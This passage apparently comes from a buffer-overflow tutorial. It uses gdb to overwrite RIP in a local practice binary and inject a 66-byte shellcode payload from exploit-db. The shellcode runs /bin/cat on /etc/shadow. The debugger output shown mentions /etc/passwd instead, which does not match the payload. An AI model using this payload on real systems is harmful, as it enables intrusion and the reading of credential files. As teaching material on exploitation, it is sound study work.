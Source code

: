 ```shell
rbp            0x4141414141414141  0x4141414141414141
rsp            0x7fffffffdf00      0x7fffffffdf00
r8             0x10f               271
r9             0xf                 15
r10            0x7ffff7fef3c0      140737354068928
r11            0x246               582
r12            0x555555555080      93824992235648
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x424242424242      0x424242424242
eflags         0x10246             [ PF ZF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) 
```
Now that we know how to control RIP we can begin constructing a malicious payload. This will look something like this:
```shell
(gdb) r $(python -c 'print "\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x73\x68\x61\x64\x6f\x77\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05" + "A" * 198 + "\x7f\xff\xff\xff\xdd\xd0"[::-1]')
```
Where the beginning part is a shell code taken from https://www.exploit-db.com/shellcodes/49547, Middle part, As, are used to fill up remaining space,
and last part is starting memory address. The offset is 264 and the shell code used is 66 bytes long. So subtracting 66 from 264 we get 198 as the new value multiplied by A. If we run it we can see nothing out of ordinary happens but printf function shows something weird:
```shell
(gdb) r $(python -c 'print "\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x73\x68\x61\x64\x6f\x77\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05" + "A" * 198 + "\x7f\xff\xff\xff\xdd\xd0"[::-1]')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/arun/Desktop/pt1 $(python -c 'print "\x48\x31\xc0\x48\x31\xed\x50\x48\xbd\x63\x2f\x73\x68\x61\x64\x6f\x77\x55\x48\xbd\x2f\x2f\x2f\x2f\x2f\x2f\x65\x74\x55\x48\x89\xe5\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x63\x61\x74\x53\x48\x89\xe3\x48\x89\xe7\x50\x48\x89\xe2\x55\x53\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05" + "A" * 198 + "\x7f\xff\xff\xff\xdd\xd0"[::-1]')

Breakpoint 1, 0x0000555555555169 in main ()
(gdb) c
Continuing.
0x7fffffffddf0

Breakpoint 2, 0x00005555555551d2 in main ()
(gdb) c
Continuing.
�?_�w
     AH1�H1�f���H�4$H��H1�f��H1�H1�@��H��H1�H1�<�����/etc/passwdAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����

Breakpoint 3, 0x00005555555551e0 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffddd0 in ?? ()
```